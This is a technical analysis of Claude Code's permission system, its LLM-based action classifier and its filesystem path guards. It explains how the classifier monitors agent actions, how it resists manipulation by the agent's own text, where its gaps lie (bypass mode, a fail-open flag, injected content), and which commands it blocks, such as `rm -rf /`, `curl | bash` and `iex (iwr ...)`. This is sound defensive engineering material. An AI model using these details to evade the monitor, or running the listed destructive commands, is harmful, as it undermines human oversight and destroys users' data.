Background agents cannot show permission prompts. When `shouldAvoidPermissionPrompts` is true, the pipeline first runs `PermissionRequest` hooks to give them a chance to allow or deny (`src/utils/permissions/permissions.ts:L400-L471`). Only if no hook provides a decision does the pipeline auto-deny. This enables enterprise deployments to configure automated approval/denial policies via hooks without needing a human in the loop.

The `runPermissionRequestHooksForHeadlessAgent` function iterates hook results, looking for the first one that provides a `permissionRequestResult`. If a hook returns `allow`, the tool proceeds (with optional `updatedInput` and `updatedPermissions`). If a hook returns `deny`, the tool is blocked (with optional `interrupt` flag that aborts the entire agent). If all hooks pass without a decision, the function returns `null` and the caller auto-denies (`src/utils/permissions/permissions.ts:L400-L471`).

### Denial-limit fallback in headless mode

In headless mode, when denial limits are exceeded (3 consecutive or 20 total), the agent is *aborted* rather than falling back to prompting, because there is no user to prompt (`src/utils/permissions/permissions.ts:L1023-L1027`). This prevents a headless agent from burning tokens in an infinite auto-deny loop. The `handleDenialLimitExceeded` function at `src/utils/permissions/permissions.ts:L984-L1058 logs the event with full analytics metadata (tool name, denial counts, message ID) before taking the terminal action.

### Rule content with parentheses

The rule string format `ToolName(content)` creates an ambiguity when content itself contains parentheses (e.g., `Bash(python -c "print(1)")`). The parser uses escaped parentheses (`\(` and `\)`) and finds the *first unescaped* `(` and *last unescaped* `)` to delimit content. The escaping order matters: backslashes are escaped first, then parentheses (`src/utils/permissions/permissionRuleParser.ts:L55-L79`). The reverse operation (unescaping) reverses this order: parentheses first, then backslashes. The helper functions `findFirstUnescapedChar` and `findLastUnescapedChar` count preceding backslashes to determine whether a character is escaped — a character preceded by an odd number of backslashes is escaped (`src/utils/permissions/permissionRuleParser.ts:L158-L198`).

### Agent-specific deny rules

The `getDenyRuleForAgent` function at `src/utils/permissions/permissions.ts:L308-L320 enables denying specific agent types via the `Agent(agentType)` syntax. For example, a deny rule `Agent(Explore)` blocks the Explore agent while allowing all other agents. The `filterDeniedAgents` helper at `src/utils/permissions/permissions.ts:L326-L343` uses this to filter agent lists, parsing deny rules once and collecting denied agent types into a `Set` for O(1) lookup — an optimization that replaced an O(agents × rules) implementation.

## Where cc diverges from the published pattern

### The auto mode is not in the public API

HER's §11 describes confidence-based routing and tiered escalation as abstract patterns. cc's `auto` mode implements both concretely — the YOLO classifier is a confidence router, and the acceptEdits fast-path / allowlist / classifier / prompting fallback chain is a tiered escalation. However, `auto` is gated behind `feature('TRANSCRIPT_CLASSIFIER')` and is not exposed in `ExternalPermissionMode`. The published pattern implies these features should be available to all users; cc restricts them to ant-internal builds. This divergence reflects a pragmatic concern: the classifier is not yet reliable enough for general use, and exposing it to external users could create a false sense of security.

### Deny-first evaluation order

Most permission frameworks check allow rules first, then deny rules (deny overrides allow). cc inverts this: deny rules are checked at step 1a, *before* allow rules at step 2b. This means a deny rule always wins over an allow rule, regardless of source. This is a deliberate design choice aligned with HER's §12.3 privilege boundaries — deny rules enforce security boundaries that should not be overridable by permissive allow rules. A more traditional allow-then-deny approach would require explicit conflict resolution (e.g., "deny wins over allow from the same source"), which adds complexity without a corresponding safety improvement.

### No rule priority between sources

The eight `PermissionRuleSource` values have no explicit priority ordering. A `userSettings` deny rule and a `policySettings` deny rule are treated identically — both block the tool. The managed-settings system (`shouldAllowManagedPermissionRulesOnly`) can strip all non-policy rules, effectively giving policy rules priority, but this is an all-or-nothing toggle, not a per-rule priority system. This diverges from HER's §7 configuration surfaces pattern, which recommends a clear precedence order. cc's approach trades fine-grained control for simplicity: within each behavior (allow/deny/ask), all sources are equal; the only precedence is between behaviors (deny > ask > allow).

### Safety checks are bypass-immune even for hooks

HER's §12.1 describes prompt-level guardrails as the first defense layer. In cc, safety checks (step 1g) are immune not just to `bypassPermissions` mode but also to `PreToolUse` hook approvals. A hook returning `allow` does not override a safety check for `.git/` or `.claude/` paths. This diverges from the standard hook-interrupts-everything pattern described in HER's §5 Pattern 12, where hooks are the final arbiter. The divergence is intentional: hooks are powerful but untrustworthy (see HER's §12.4 on supply chain attacks via hooks), and safety checks protect paths where a compromised hook could cause irreparable damage.

### The passthrough behavior

cc's `PermissionResult` includes a fourth behavior — `passthrough` — not present in HER's three-behavior (allow/deny/ask) model. Passthrough means "this tool has no opinion; let the pipeline decide." This is converted to `ask` at step 3. The passthrough behavior exists to allow tools with no `checkPermissions` override to participate in the pipeline without explicitly returning `ask`, which would carry a misleading `decisionReason`. This is a pragmatic simplification: without passthrough, every tool would need to implement `checkPermissions` returning `ask` with a manufactured reason, even for tools (like `Glob`) that have no security-relevant behavior.

### Iron gate is a feature flag, not a compile-time decision

When the auto mode classifier is unavailable, the fail-closed vs. fail-open behavior is controlled by a GrowthBook feature flag (`tengu_iron_gate_closed`), not a compile-time constant. This means the same binary can operate in fail-closed mode for one deployment and fail-open for another, and the behavior can be changed without a new release. This diverges from the typical approach of baking fail-safe behavior into the code, reflecting cc's operational reality: the right trade-off between security (fail-closed) and usability (fail-open) depends on the user population and deployment context.

## Developer takeaways for building a long-running agent

1. **Deny-first is safer than allow-first.** Evaluate deny rules before allow rules. cc's step-ordering (1a: deny → 2b: allow) ensures a single deny rule from a security policy is never overridden by a permissive allow rule.

2. **Safety checks must be immune to mode changes and hook overrides.** Implement bypass-immune safety checks for critical paths (`.git/`, credentials), not just ask rules. An ask rule can be overridden by `bypassPermissions`; a safety check cannot.

3. **Auto mode needs tiered fast paths before the AI classifier.** The YOLO classifier adds latency and cost. cc avoids both by checking the acceptEdits fast-path and safe-tool allowlist first. Design similar shortcuts: deterministic checks before probabilistic ones.

4. **Denial tracking prevents silent runaway loops.** cc's `DENIAL_LIMITS` (3 consecutive, 20 total) force fallback to human prompting; for headless agents, they trigger abort. Implement similar circuit-breakers.

5. **Separate the rule-based subset for bypass mode.** cc's `checkRuleBasedPermissions` extracts deny/ask/safety-check steps so `bypassPermissions` still respects deny rules and safety checks — it's not a wildcard.
# Bash Classifier and YOLO Scoring

## Overview

Claude Code's auto mode depends on a machine-learning classifier to decide whether each agent action should proceed or be blocked. This chapter examines the two classification subsystems that power that decision: the deterministic Bash classifier (`bashClassifier.ts`) and the LLM-based YOLO classifier (`yoloClassifier.ts`). The Bash classifier provides prompt-driven rule matching for shell commands; the YOLO classifier uses a separate model call to evaluate every tool action against a security policy. Together they implement HER Pattern 10, Command Risk Classification, which calls for deterministic pre-parsing and per-tool permission gating (see HER Section 5, Pattern 10).

The name "YOLO" in the YOLO classifier is an internal code name, not an acronym for "You Only Look Once." Within the codebase it refers to the classifier's ability to make a single, decisive classification call per tool action -- either allowing the action to proceed or blocking it -- rather than the computer-vision architecture. The Bash classifier is a stub in external builds, exposing only type definitions and no-op functions. The YOLO classifier is the production system, implementing a two-stage XML classification pipeline with prompt caching, transcript projection, and comprehensive error handling. The two subsystems serve different threat models: the Bash classifier provides deterministic, rule-based matching for known dangerous command patterns, while the YOLO classifier provides context-aware, probabilistic classification for novel or ambiguous actions.

The classifier maps each action into one of three risk bands: **read** (information retrieval with no side effects, auto-approved), **write** (file modifications or network requests, requires user confirmation in default mode), and **destructive** (irreversible operations like `rm -rf` or force-push, always blocked in auto mode without explicit user confirmation). These bands drive the permission decision in auto mode: read-band actions proceed silently, write-band actions show the user a brief confirmation, and destructive-band actions are blocked unless the user has explicitly allowed them through rules.

Understanding the classifier architecture is critical for anyone building a trustworthy autonomous system, because the classifier is the single point where the harness can intervene before an action becomes irreversible. The classifier sits between the agent's intent and its execution: every tool call must pass through the classifier before the agent is allowed to act. A false negative (allowing a dangerous action) can cause irreversible damage; a false positive (blocking a safe action) interrupts the user and degrades trust. The two-stage pipeline and the fail-safe defaults reflect a design that prioritizes safety over convenience, a philosophy that this chapter will trace through every code path.

## Data structures and contracts

### ClassifierResult and ClassifierBehavior

The Bash classifier stub defines the result shape that external builds use as a no-op. Even in the stub, the type definitions are important because they establish the contract that the full implementation must satisfy:

```typescript
// src/utils/permissions/bashClassifier.ts:L5-L12
export type ClassifierResult = {
  matches: boolean
  matchedDescription?: string
  confidence: 'high' | 'medium' | 'low'
  reason: string
}

export type ClassifierBehavior = 'deny' | 'ask' | 'allow'
```

When `BASH_CLASSIFIER` is enabled, the classifier matches a command against `prompt:` rules declared in the user's permission configuration. Each rule carries a description string; `ClassifierResult.matchedDescription` reports which rule matched, and `confidence` distinguishes high-confidence matches (exact command match) from lower ones. The `ClassifierBehavior` type determines the action taken when a match is found: `deny` blocks the command, `ask` shows the interactive dialog, and `allow` auto-approves. These three behaviors map directly to the risk bands: `deny` corresponds to destructive-band commands, `ask` to write-band commands, and `allow` to read-band commands.

The stub itself demonstrates cc's approach to feature-flagged code: rather than using conditional imports or dynamic dispatch, the entire file is a 61-line stub that returns safe defaults:

```typescript
// src/utils/permissions/bashClassifier.ts:L24-L26
export function isClassifierPermissionsEnabled(): boolean {
  return false
}
```

Every function in the stub returns a safe default -- `false` for booleans, empty arrays for lists, and a "feature disabled" result for classification. This ensures that external builds never accidentally invoke the Anthropic-internal classifier.

### YoloClassifierResult and TranscriptEntry

The YOLO classifier operates on a projected transcript rather than raw messages. The projection strips assistant text (which could influence the classifier) and retains only tool-use blocks and user messages. This is a critical security design choice: the classifier must not be influenced by the agent's own reasoning, which could be crafted to justify a dangerous action.

```typescript
// src/utils/permissions/yoloClassifier.ts:L287-L294
type TranscriptBlock =
  | { type: 'text'; text: string }
  | { type: 'tool_use'; name: string; input: unknown }

export type TranscriptEntry = {
  role: 'user' | 'assistant'
  content: TranscriptBlock[]
}
```

The `TranscriptBlock` union has only two variants. The `text` type carries user messages; the `tool_use` type carries assistant tool invocations. There is no `tool_result` variant in the transcript, because tool results are represented by the next user message (the API convention where tool results are sent as user-turn content). This compact representation keeps the classifier's input small while preserving the essential action sequence.

The final classification result includes usage telemetry, timing, and staging information for observability. The Zod schema for the legacy tool-use classifier response is:

```typescript
// src/utils/permissions/yoloClassifier.ts:L252-L258
const yoloClassifierResponseSchema = lazySchema(() =>
  z.object({
    thinking: z.string(),
    shouldBlock: z.boolean(),
    reason: z.string(),
  }),
)
```

The `lazySchema` wrapper defers Zod schema construction until first use, reducing startup time. The `thinking` field captures the model's chain-of-thought reasoning, which is exposed in the `YoloClassifierResult` as an optional field for debugging and auditing.

### AutoModeRules and the permissions template

User-configurable classifier rules are captured in `AutoModeRules`, which mirrors the three sections of the permissions template:

```typescript
// src/utils/permissions/yoloClassifier.ts:L85-L89
export type AutoModeRules = {
  allow: string[]
  soft_deny: string[]
  environment: string[]
}
```

The `allow` array lists action descriptions that the classifier should auto-approve; `soft_deny` lists descriptions that should trigger blocking; `environment` provides contextual facts about the user's setup that inform classification. These three arrays are interpolated into the classifier's system prompt at runtime, replacing the default values in the `<user_*_to_replace>` template tags.

The `AutoModeConfig` type extends this with classifier-specific settings, each field gated behind the `tengu_auto_mode_config` GrowthBook feature flag:

```typescript
// src/utils/permissions/yoloClassifier.ts:L1310-L1327
type AutoModeConfig = {
  model?: string
  /**
   * Enable XML classifier. `true` runs both stages; `'fast'` and `'thinking'`
   * run only that stage; `false`/undefined uses the tool_use classifier.
   */
  twoStageClassifier?: boolean | 'fast' | 'thinking'
  /**
   * Ant builds normally use permissions_anthropic.txt; when true, use
   * permissions_external.txt instead (dogfood the external template).
   */
  forceExternalPermissions?: boolean
  /**
   * Gate the JSONL transcript format ({"Bash":"ls"} vs `Bash ls`).
   * Default false (old text-prefix format) for slow rollout / quick rollback.
   */
  jsonlTranscript?: boolean
}
```

The JSDoc comments document the semantics of each field. The `twoStageClassifier` field controls whether the XML classifier runs in both-stage mode (the default), fast-only mode, or thinking-only mode. The `jsonlTranscript` field switches the transcript encoding from the legacy text-prefix format to the more compact JSONL format.

### Classifier inputs as a class hierarchy

The various inputs to the classifier form a structured hierarchy. The following diagram shows how the raw conversation, user configuration, and tool metadata flow into the classifier's decision:

```mermaid
classDiagram
    class ClassifierInput {
        +systemPrompt: string
        +transcript: TranscriptEntry[]
        +action: TranscriptEntry
        +tools: ToolLookup
    }
    class TranscriptEntry {
        +role: user | assistant
        +content: TranscriptBlock[]
    }
    class TranscriptBlock {
        <<union>>
        TextBlock
        ToolUseBlock
    }
    class TextBlock {
        +type: text
        +text: string
    }
    class ToolUseBlock {
        +type: tool_use
        +name: string
        +input: unknown
    }
    class AutoModeRules {
        +allow: string[]
        +soft_deny: string[]
        +environment: string[]
    }
    class AutoModeConfig {
        +model: string
        +twoStageClassifier: boolean | fast | thinking
        +forceExternalPermissions: boolean
        +jsonlTranscript: boolean
    }
    class ToolLookup {
        +get(name: string): Tool
    }
    ClassifierInput --> TranscriptEntry : contains
    TranscriptEntry --> TranscriptBlock : contains
    TranscriptBlock <|-- TextBlock
    TranscriptBlock <|-- ToolUseBlock
    ClassifierInput --> AutoModeRules : injected into systemPrompt
    ClassifierInput --> AutoModeConfig : gates behavior
    ClassifierInput --> ToolLookup : serializes tool_use blocks
```

## Control flow

### Transcript assembly and projection

The classifier does not see the raw conversation. Instead, `buildTranscriptEntries` walks the message array and emits only user text and assistant tool-use blocks. This is a deliberate security choice: assistant-generated text could contain persuasive content designed to influence the classifier, so it is excluded from the transcript. The function handles several message types:

```typescript
// src/utils/permissions/yoloClassifier.ts:L302-L360
export function buildTranscriptEntries(messages: Message[]): TranscriptEntry[] {
  const transcript: TranscriptEntry[] = []
  for (const msg of messages) {
    if (msg.type === 'attachment' && msg.attachment.type === 'queued_command') {
      const prompt = msg.attachment.prompt
      let text: string | null = null
      if (typeof prompt === 'string') {
        text = prompt
      } else if (Array.isArray(prompt)) {
        text =
          prompt
            .filter(
              (block): block is { type: 'text'; text: string } =>
                block.type === 'text',
            )
            .map(block => block.text)
            .join('\n') || null
      }
      if (text !== null) {
        transcript.push({
          role: 'user',
          content: [{ type: 'text', text }],
        })
      }
    } else if (msg.type === 'user') {
      // ... extract text blocks from user message
    } else if (msg.type === 'assistant') {
      const blocks: TranscriptBlock[] = []
      for (const block of msg.message.content) {
        // Only include tool_use blocks — assistant text is model-authored
        // and could be crafted to influence the classifier's decision.
        if (block.type === 'tool_use') {
          blocks.push({
            type: 'tool_use',
            name: block.name,
            input: block.input,
          })
        }
      }
      if (blocks.length > 0) {
        transcript.push({ role: 'assistant', content: blocks })
      }
    }
  }
  return transcript
}
```

The `queued_command` handling is notable: when a user submits a queued command (via the attachment system), the prompt text is extracted and emitted as a user turn. This ensures that the classifier sees the user's intent even when it arrives through the attachment pipeline rather than a direct message.

Each tool controls what it exposes to the classifier via its `toAutoClassifierInput` method. The `toCompactBlock` function serializes each transcript block into a compact string, either JSONL (`{"Bash":"ls"}`) or the legacy text-prefix format (`Bash ls`), controlled by the `jsonlTranscript` GrowthBook flag. The JSONL format is more robust against parsing ambiguities because JSON escaping prevents hostile content from breaking out of its string context.

```mermaid
flowchart TD
    A[Raw messages array] --> B[buildTranscriptEntries]
    B --> C{Message type}
    C -->|user text| D[TextBlock]
    C -->|assistant tool_use| E[ToolUseBlock]
    C -->|assistant text| F[Discarded - security]
    C -->|queued_command| G[Extracted prompt text]
    D --> H[toCompactBlock]
    E --> H
    G --> H
    H --> I{JSONL enabled?}
    I -->|yes| J["{'Bash':'ls'}\n"]
    I -->|no| K["Bash ls\n"]
    J --> L[Compact transcript string]
    K --> L
```

### System prompt assembly

`buildYoloSystemPrompt` assembles the classifier's system prompt from three sources: the base prompt template, the permissions template (external or Anthropic-internal), and user-provided rules from `settings.autoMode`. The `<user_*_to_replace>` tag pattern allows user rules to replace defaults entirely (external template) or add to them (Anthropic template).

The prompt template selection depends on the user type and the `forceExternalPermissions` flag:

```typescript
// src/utils/permissions/yoloClassifier.ts:L71-L78
function isUsingExternalPermissions(): boolean {
  if (process.env.USER_TYPE !== 'ant') return true
  const config = getFeatureValue_CACHED_MAY_BE_STALE(
    'tengu_auto_mode_config',
    {} as AutoModeConfig,
  )
  return config?.forceExternalPermissions === true
}
```

External users always get the external permissions template. Anthropic-internal users get the internal template by default, but can opt into the external template via the `forceExternalPermissions` flag for dogfooding purposes.

The three-way substitution replaces each section's defaults with user-provided values:

```typescript
// src/utils/permissions/yoloClassifier.ts:L527-L540
return systemPrompt
  .replace(
    /<user_allow_rules_to_replace>([\s\S]*?)<\/user_allow_rules_to_replace>/,
    (_m, defaults: string) => userAllow ?? defaults,
  )
  .replace(
    /<user_deny_rules_to_replace>([\s\S]*?)<\/user_deny_rules_to_replace>/,
    (_m, defaults: string) => userDeny ?? defaults,
  )
  .replace(
    /<user_environment_to_replace>([\s\S]*?)<\/user_environment_to_replace>/,
    (_m, defaults: string) => userEnvironment ?? defaults,
  )
```

When user-provided values are present, they replace the defaults entirely (for the external template) or are added alongside them (for the Anthropic template, where defaults live outside the tags). The `??` operator falls back to the captured defaults when no user value is provided, ensuring that the classifier always has a complete set of rules.

### CLAUDE.md injection

The classifier also receives the user's CLAUDE.md content as a prefix message. This is wrapped in a delimiter that tells the classifier the content is user-provided configuration:

```typescript
// src/utils/permissions/yoloClassifier.ts:L460-L477
function buildClaudeMdMessage(): Anthropic.MessageParam | null {
  const claudeMd = getCachedClaudeMdContent()
  if (claudeMd === null) return null
  return {
    role: 'user',
    content: [
      {
        type: 'text',
        text:
          `The following is the user's CLAUDE.md configuration. These are ` +
          `instructions the user provided to the agent and should be treated ` +
          `as part of the user's intent when evaluating actions.\n\n` +
          `<user_claude_md>\n${claudeMd}\n</user_claude_md>`,
        cache_control: getCacheControl({ querySource: 'auto_mode' }),
      },
    ],
  }
}
```

The `cache_control` marker on the CLAUDE.md content makes it part of the system prompt cache prefix, so it is not re-processed on every classifier call. This is important because the CLAUDE.md content is static per session -- it is loaded once at startup and does not change during the session. The `getCachedClaudeMdContent` function reads from the bootstrap state cache rather than importing `claudemd.ts` directly, avoiding a circular dependency (claudemd -> permissions/filesystem -> permissions -> yoloClassifier).

### Two-stage XML classifier

When the GrowthBook flag `tengu_auto_mode_config.twoStageClassifier` is enabled, the classifier runs a two-stage pipeline via `classifyYoloActionXml`:

1. **Stage 1 (fast)**: Sends the transcript with a suffix nudging an immediate `<block>yes</block>` or `<block>no</block>` response. Uses `max_tokens=64` and `stop_sequences=['</block>']`. If the response is "no" (allow), the function returns immediately without stage 2. The low token limit and stop sequence ensure a fast response, typically within 1-2 seconds.

2. **Stage 2 (thinking)**: Sends the same transcript with a suffix requesting chain-of-thought reasoning before the block decision. Uses `max_tokens=4096`. This reduces false positives from stage 1 by requiring explicit justification. The thinking suffix reads:

```typescript
// src/utils/permissions/yoloClassifier.ts:L560-L561
const XML_S2_SUFFIX =
  '\nReview the classification process and follow it carefully, making sure you deny actions that should be blocked. As a reminder, explicit (not suggestive or implicit) user confirmation is required to override blocks. Use <thinking> before responding with <block>.'
```

The key insight is that stage 1 and stage 2 share the same system prompt and user content, which means they benefit from prompt caching. The `cache_control` breakpoint on the action block ensures that stage 2 gets a guaranteed cache hit on the full prefix, making the second call significantly cheaper than the first.

```mermaid
sequenceDiagram
    participant Q as queryLoop
    participant C as classifyYoloAction
    participant S1 as Stage 1 (fast)
    participant S2 as Stage 2 (thinking)
    participant API as Anthropic API

    Q->>C: classifyYoloAction(messages, action, tools, context, signal)
    C->>C: buildTranscriptEntries + toCompact
    C->>C: buildYoloSystemPrompt
    C->>C: buildClaudeMdMessage
    C->>S1: classifyYoloActionXml (mode=both)
    S1->>API: sideQuery (max_tokens=64, stop_sequences)
    API-->>S1: block yes or block no
    alt Stage 1 = allow
        S1-->>C: {shouldBlock: false, reason: "Allowed by fast classifier"}
    else Stage 1 = block or unparseable
        S2->>API: sideQuery (max_tokens=4096, cached prefix)
        API-->>S2: thinking...block yes/no
        S2-->>C: {shouldBlock, reason, thinking}
    end
    C-->>Q: YoloClassifierResult
```

The XML response format was chosen over the original tool-use format for the two-stage classifier because XML parsing is more robust than tool-use extraction for short responses. The `stripThinking` function removes any `<thinking>` content before parsing `<block>` tags, preventing chain-of-thought content from being misinterpreted as classification output.

### Tool-use classifier (legacy path)

When the two-stage XML classifier is not enabled, the classifier uses a tool-use response format with the `classify_result` tool. The tool schema enforces structured output through the API's tool-choice constraint:

```typescript
// src/utils/permissions/yoloClassifier.ts:L262-L285
const YOLO_CLASSIFIER_TOOL_SCHEMA: BetaToolUnion = {
  type: 'custom',
  name: YOLO_CLASSIFIER_TOOL_NAME,
  description: 'Report the security classification result for the agent action',
  input_schema: {
    type: 'object',
    properties: {
      thinking: {
        type: 'string',
        description: 'Brief step-by-step reasoning.',
      },
      shouldBlock: {
        type: 'boolean',
        description:
          'Whether the action should be blocked (true) or allowed (false)',
      },
      reason: {
        type: 'string',
        description: 'Brief explanation of the classification decision',
      },
    },
    required: ['thinking', 'shouldBlock', 'reason'],
  },
}
```

The `tool_choice: { type: 'tool', name: 'classify_result' }` parameter forces the model to use the tool, ensuring that the response is always parseable. However, the tool-use format adds overhead (the model must emit the full tool invocation syntax) and does not support the fast/slow two-stage optimization.

### Classifier approvals from the user perspective

From the user's perspective, classifier decisions appear as one of three outcomes in the terminal. When a tool call is auto-approved (the classifier returns `shouldBlock: false`), the user sees a brief checkmark indicator before the action proceeds -- the `checkmark transition` UI pattern. The checkmark fades after a configurable duration that depends on whether the terminal has focus: a focused terminal shows the checkmark for 800ms, while an unfocused terminal shows it for 2000ms, giving the user time to notice it in peripheral vision.

When the classifier blocks an action, the user sees a denial message with the blocking reason extracted from the `reason` field of `YoloClassifierResult`. The reason text comes directly from the classifier model's output, making it intelligible and context-specific rather than a generic "action denied" message. The user can then choose to retry the action with different parameters, modify their auto mode rules to allow similar actions in the future, or switch to a different permission mode.

When the classifier is unavailable (API error, timeout, or transcript overflow), the system falls back to the interactive permission dialog, prompting the user directly. The `useCanUseTool` hook (Chapter 35) orchestrates this fallback: it checks the `unavailable` flag on the classifier result and, when true, shows the interactive dialog instead of silently blocking. This ensures that classifier outages do not cause the agent to grind to a halt -- the user retains the ability to approve or deny each action interactively.

The relationship between risk bands and user-facing behavior is explicit. Read-band actions (file reads, glob searches, grep queries) are auto-approved silently. Write-band actions (file edits, bash commands classified as non-destructive) show the checkmark transition but proceed automatically. Destructive-band actions (`rm -rf`, force-push, `curl | bash`) are blocked with a reason. The user can customize the band boundaries through the `allow` and `soft_deny` arrays in `AutoModeRules`, effectively promoting actions from destructive to write band (by adding to `allow`) or demoting actions from write to destructive band (by adding to `soft_deny`).

## Edge cases and failure modes

**Projection divergence**: The classifier transcript is a projection of the main loop's context, and the two can drift apart. `src/utils/permissions/yoloClassifier.ts:L1073-L1075` estimates classifier tokens as `Math.round(classifierChars / 4)` and compares against the main loop's actual token count. When the classifier exceeds the main loop (ratio > 1.0), auto-compact will not rescue the classifier, because auto-compact fires based on the main loop's token count. This is tracked via the `tengu_auto_mode_outcome` telemetry event, which includes `classifierInputTokens` and `mainLoopTokens` fields that allow monitoring the ratio in production.

**Models with always-on thinking**: Some Anthropic-internal models reject `thinking: { type: 'disabled' }` with a 400 error. `getClassifierThinkingConfig` (`src/utils/permissions/yoloClassifier.ts:L683`) detects these models and passes `thinking: undefined` with a `2048`-token headroom so that server-side adaptive thinking does not exhaust the output budget before the `<block>` tag is emitted. Without this headroom, `stop_reason=max_tokens` would yield an empty text response, which `parseXmlBlock` would interpret as null (unparseable), causing the classifier to block safe commands.

**Bash classifier stub**: In external builds, `bashClassifier.ts` is a 61-line stub that returns `false` for `isClassifierPermissionsEnabled()` and an empty array for all description getters. The full implementation lives behind the `BASH_CLASSIFIER` feature flag, which is Anthropic-internal only. The stub's `classifyBashCommand` function returns a safe default:

```typescript
// src/utils/permissions/bashClassifier.ts:L40-L53
export async function classifyBashCommand(
  _command: string,
  _cwd: string,
  _descriptions: string[],
  _behavior: ClassifierBehavior,
  _signal: AbortSignal,
  _isNonInteractiveSession: boolean,
): Promise<ClassifierResult> {
  return {
    matches: false,
    confidence: 'high',
    reason: 'This feature is disabled',
  }
}
```

**PowerShell denial guidance**: When `POWERSHELL_AUTO_MODE` is enabled, PowerShell-specific deny rules are appended to the classifier prompt. These map PowerShell idioms (`iex (iwr ...)`, `Remove-Item -Recurse -Force`, profile modifications) to existing BLOCK categories. The guidance is defined as a constant array guarded by the `POWERSHELL_AUTO_MODE` feature flag, so the string content is absent from external builds via dead code elimination.

**Transcript format migration**: The `isJsonlTranscriptEnabled` function (`src/utils/permissions/yoloClassifier.ts:L1379`) controls whether the compact transcript uses the newer JSONL format or the legacy text-prefix format. The JSONL format is more robust because JSON escaping prevents hostile content from breaking out of its string context. For example, a user message containing `Bash rm -rf /` would be ambiguous in the text-prefix format (is it a Bash command or a discussion about one?), but in JSONL format the distinction is clear: `{"user":"Bash rm -rf /"}` vs `{"Bash":"rm -rf /"}`. The default is the legacy format (controlled by the `jsonlTranscript` GrowthBook flag), with the JSONL format being rolled out gradually to catch any parsing regressions.

**Malformed tool input**: The `toCompactBlock` function includes a try-catch around `tool.toAutoClassifierInput(input)` because `block.input` is unvalidated model output from history. A tool_use rejected for bad params (e.g., an array emitted as a JSON string) would crash `toAutoClassifierInput` when it assumes a properly typed input. On throw, the function falls back to the raw input object, which gets single-encoded in the JSON stringification wrap. This graceful degradation ensures that the classifier never crashes due to malformed tool input, even though the classification may be less precise.

**Dump-aided debugging**: The `maybeDumpAutoMode` function (`src/utils/permissions/yoloClassifier.ts:L153`) writes classifier request and response bodies to the per-user claude temp directory when the `CLAUDE_CODE_DUMP_AUTO_MODE` environment variable is set. Files are named by unix timestamp with optional suffixes (e.g., `{timestamp}.stage1.req.json`). This is an Anthropic-internal debugging facility that allows engineers to inspect the exact classifier inputs and outputs without needing to reproduce the session state.

**Empty action compact**: Some tools declare no classifier-relevant input by returning an empty string from `toAutoClassifierInput`. The `classifyYoloAction` function checks for this case and returns an immediate allow:

```typescript
// src/utils/permissions/yoloClassifier.ts:L1023-L1029
if (actionCompact === '') {
  return {
    shouldBlock: false,
    reason: 'Tool declares no classifier-relevant input',
    model: getClassifierModel(),
  }
}
```

This optimization avoids an unnecessary API call for tools that the classifier cannot meaningfully evaluate (e.g., internal tools with no security implications).

## Where cc diverges from the published pattern

HER Pattern 10 prescribes deterministic pre-parsing for command risk classification. The Bash classifier follows this directly, mapping commands to risk bands via rule matching. However, the YOLO classifier diverges significantly by using an LLM call for classification rather than deterministic rules. This trades the predictability of deterministic classification for the flexibility of understanding novel command sequences and their intent in context. The two-stage pipeline (fast + thinking) partially mitigates the latency cost, and the fail-safe default (block on any error) preserves safety, but the approach is inherently less auditable than a pure rule system.

The transcript projection also diverges from the pattern's assumption that classification is based solely on the command itself. By including the full conversation history, the YOLO classifier can understand context-dependent risk (e.g., `rm -rf` in a Dockerfile build step vs. on the host), but this also means the classifier's behavior is path-dependent on conversation history, making it harder to reason about in isolation. This is both a strength and a weakness: context-aware classification reduces false positives on commands that look dangerous in isolation but are safe in context, but it also makes the classifier's decisions harder to predict and audit.

HER Section 12.4 identifies indirect prompt injection as a critical threat: malicious instructions embedded in files or tool outputs that the agent processes. The YOLO classifier's transcript projection mitigates this by excluding assistant text (which could contain injected instructions), but the user messages and tool-use blocks in the transcript could themselves contain injected content. The classifier's security policy is the last line of defense against actions that were influenced by injected instructions.

A third divergence concerns the relationship between the classifier and the permission mode system (Chapter 32). In a pure implementation of Pattern 10, the classifier would be the sole authority on whether a command is allowed. In cc's implementation, the classifier is only consulted in auto mode; in other modes (default, plan, acceptEdits), the permission rules and the user's interactive decisions take precedence. This means that the classifier's security guarantees are conditional on the user's choice of permission mode. A user who runs in `bypassPermissions` mode bypasses the classifier entirely, which is by design (the user has explicitly opted out of automated safety checks) but creates a gap in the defense-in-depth model that HER Section 12.4 recommends.

The cost of classification is also a design consideration that the HER pattern does not address. Each classifier call consumes API tokens -- both input tokens (for the system prompt, transcript, and action) and output tokens (for the classification response). For a long-running agent that makes thousands of tool calls, the cumulative classification cost can be significant. cc mitigates this through prompt caching (the system prompt and CLAUDE.md content are cached across calls), the two-stage pipeline (stage 1 uses only 64 output tokens for clearly safe actions), and the `toAutoClassifierInput` contract (tools with no security relevance skip classification entirely). These optimizations reduce the per-call cost from several thousand tokens to a few hundred for the common case.

## Developer takeaways for building a long-running agent

1. **Fail-safe defaults are non-negotiable**: Every error path in the classifier returns `shouldBlock: true`. For a long-running agent that may be unattended for hours, a single misclassification could cause irreversible damage. Block-first semantics ensure that uncertainty always results in human escalation.

2. **Separate the classification model from the action model**: The classifier uses `sideQuery`, which dispatches to a potentially different model than the main loop (`getClassifierModel` at `src/utils/permissions/yoloClassifier.ts:L1334`). This allows using a cheaper, faster model for classification while reserving the expensive model for the agent's actual work. It also creates an isolation boundary: a compromised classification model cannot directly influence the agent's reasoning.

3. **Cache control reduces classification cost**: The classifier places `cache_control` breakpoints on the system prompt, CLAUDE.md prefix, and action block (`src/utils/permissions/yoloClassifier.ts:L1096-L1106`). In the two-stage pipeline, stage 2 gets a guaranteed cache hit on the full prefix, making the second call significantly cheaper.

4. **Projection must stay smaller than the source**: The classifier transcript must remain strictly smaller than the main loop's context window so that auto-compact fires before the classifier overflows. Track the `classifierTokensEst / mainLoopTokens` ratio and alert when it exceeds 0.8.

5. **Feature flags enable incremental rollout**: The two-stage classifier, JSONL transcript format, and PowerShell auto mode are all gated behind GrowthBook feature flags (`tengu_auto_mode_config`). This allows gradual rollout and quick rollback without code changes.
# Filesystem Permissions and Path Guards

## Overview

Filesystem permissions in Claude Code are the second line of defense after the permission mode system described in Chapter 32. While the mode system decides *whether* to ask, the filesystem permission layer decides *what* to ask about. It guards reads and writes against path traversal, symlink attacks, case-insensitive bypasses, and Windows-specific canonicalization exploits. This chapter examines `src/utils/permissions/filesystem.ts` (1,777 LOC) and `src/utils/permissions/denialTracking.ts` (45 LOC), which together implement the path validation and denial-tracking subsystems.

